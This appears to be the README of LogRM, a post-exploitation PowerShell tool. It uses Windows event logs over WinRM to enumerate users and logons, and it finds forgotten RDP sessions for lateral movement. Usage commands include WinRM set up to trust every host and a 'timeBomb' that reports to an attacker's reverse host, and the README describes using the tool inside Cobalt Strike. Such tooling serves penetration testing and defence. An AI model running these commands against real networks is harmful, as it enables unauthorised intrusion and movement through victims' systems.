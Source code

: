 # LogRM
LogRM is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use LogRM not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Configuration

In some cases may be you need to configure WinRM protocol to be functional

On client side (attacker):

	winrm quickconfig
	winrm set winrm/config/client '@{TrustedHosts="*"}'
		
On the server side (victim):
		
	Enable-PSRemoting -Force
	winrm quickconfig


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account


### Scenarios

The LogRM searching into newest 10(default value) entries into all event types.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip>
PS> LogRM -user <username> -pass <password> -fips <file with ips>
PS> LogRM -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> LogRM -ip 127.0.0.1 -eventID <eventID> 
```

![alt text](https://github.com/tasox/LogRM/blob/master/Screenshots/example1_.png)

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> LogRM -ip 127.0.0.1 -newest <number>
```

![alt text](https://github.com/tasox/LogRM/blob/master/Screenshots/example2_.png)

Providing the -users flag you will get as a result some valid usernames. The LogRM searches into these event IDs 4624,4625,4776 

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -users
PS> LogRM -user <username> -pass <password> -fips <file with ips> -users
PS> LogRM -ip 127.0.0.1 -users
```

In earlier windows versions for example Windows server 2008, you can not have more than 5 winrm connections with the same host

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBomb:

1) now
2) once
3) trigger

Timebomb uses the following events:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4647) - User initiated logoff
3) Information Event ID (4778) - A session was reconnected to a Window Station
4) Information Event ID (4779) - A session was disconnected from a Window Station
5) Information Event ID (4800) - The workstation was locked
6) Information Event ID (4801) - The workstation was unlocked
7) Information Event ID (4802) - The screen saver was invoked
8) Information Event ID (4803) - The screen saver was dismissed

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000


###  Intro to Windows events

Before use timebomb we have to learn the differences between windows events. Events 4778/4779 is fired up when the user is currently logged in and uses switch button to move quickly between users without locked or logout from his terminal. Events 4800 is fired up when the user press the button from keyboard (window+L) or with his mouse on start button press lockout. On the other hand 4801 is fired up after using ctrl+alt+del. Sometimes users uses screensavers not only for powersaving but also to lock their machines, in this case 4802/4803 are taking place. 

Information: In windows server 2008 events 4800/4801/4802/4803 are not created without a policy.


### Usage


The task is going to run now
```
PS> timeBomb -task now -newest <give a big number>
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number>
```

The task is going to run now and if the user is logged of or if the screen saver is invoked then you will get a message.
```
PS> timeBomb -task now -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

### Discover if any user in loggedOn

Using timeBomb you can discover if any user is loggedOn in the case which we want to use RDP to connect with the host. TimeBomb will make some calculation between the events and behind the scene asks the following questions:

1) Is anyone loggof?
2) Is anyone who use the switch button?
3) Is anyone who use lock-out button?
4) Is anyone connected with RDP to network host? 
5) what If a screensaver is lock the host? 

#### Scenario 1 - User used RDP to connect to the remote host, after while host is locked

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/User_RDP.png)


#### Scenario 2 - User is connected with RDP to remote host, is currently in

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/User_LoggedOn_RDP2.png)


The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Scenario 3 - User is logged of and TimeBomb sent a notification to our remote server.

![alt text](https://github.com/tasox/LogRM/blob/master/Screenshots/timebomb_notification2.png)
![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/timebomb_notification.png)


The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## Active Remote Desktop Sessions

RDPConn function gets only valid incoming RDP connections into the compromised host. By using this function you will be able to observe which users from which machines have connection with our host without interrupt their connection if we tried to login with the same credentials.

RDPConn function uses the following events

1) Session logon succeeded - 21
2) Session has been disconneted - 24
3) Session reconnection succeeded - 25


```
PS> RDPConn
PS> RDPConn -ip 127.0.0.1
```

#### Scenario 1

![alt text](https://github.com/tasox/LogRM/blob/master/Screenshots/RDP_winrm.png)



## CobaltStrike -and LogRM

You are able to import LogRM script into cobaltstrike and use powerpick or powershell to execute it.

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/cobaltStrike_rdpconn.png)

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/cobaltStrike_timeBomb.png)

![alt_text](https://github.com/tasox/LogRM/blob/master/Screenshots/cobaltStrike_errorLogin.png)


## Authors

* TasoX (@taso_x)



